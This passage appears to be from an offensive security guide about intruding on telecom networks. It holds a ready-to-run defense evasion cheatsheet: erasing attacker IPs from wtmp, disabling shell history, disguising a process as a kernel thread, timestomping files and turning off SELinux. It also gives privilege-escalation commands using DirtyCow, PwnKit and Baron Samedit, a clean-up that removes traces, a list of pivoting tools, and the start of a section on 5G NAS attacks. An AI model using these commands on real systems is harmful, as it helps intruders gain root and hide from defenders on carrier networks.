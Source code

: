 All implants implement watchdogs that **timestomp** their binaries and re-spawn if crashed.

## 6. Defense Evasion Cheatsheet

```bash
# Remove attacker IPs from wtmp
utmpdump /var/log/wtmp | sed '/203\.0\.113\.66/d' | utmpdump -r > /tmp/clean && mv /tmp/clean /var/log/wtmp

# Disable bash history
export HISTFILE=/dev/null

# Masquerade as kernel thread
echo 0 > /proc/$$/autogroup   # hide from top/htop
printf '\0' > /proc/$$/comm    # appears as [kworker/1]

touch -r /usr/bin/time /usr/bin/chargen   # timestomp
setenforce 0                              # disable SELinux
```

## 7. Privilege Escalation on Legacy NE

```bash
# DirtyCow – CVE-2016-5195
gcc -pthread dirty.c -o dirty && ./dirty /etc/passwd

# PwnKit – CVE-2021-4034
python3 PwnKit.py

# Sudo Baron Samedit – CVE-2021-3156
python3 exploit_userspec.py
```

Clean-up tip:
```bash
userdel firefart 2>/dev/null
rm -f /tmp/sh ; history -c
```

## 8. Tool Box

* `cordscan`, `GTPDoor`, `EchoBackdoor`, `NoDepDNS` – custom tooling described in previous sections.
* `FScan` : intranet TCP sweeps (`fscan -p 22,80,443 10.0.0.0/24`)
* `Responder` : LLMNR/NBT-NS rogue WPAD
* `Microsocks` + `ProxyChains` : lightweight SOCKS5 pivoting
* `FRP` (≥0.37) : NAT traversal / asset bridging

## 9. 5G NAS Registration Attacks: SUCI leaks, downgrade to EEA0/EIA0, and NAS replay

The 5G registration procedure runs over NAS (Non-Access Stratum) on top of NGAP. Until NAS security is activated by Security Mode Command/Complete, initial messages are unauthenticated and unencrypted. This pre-security window enables multiple attack paths when you can observe or tamper with N2 traffic (e.g., on-path inside the core, rogue gNB, or testbed).
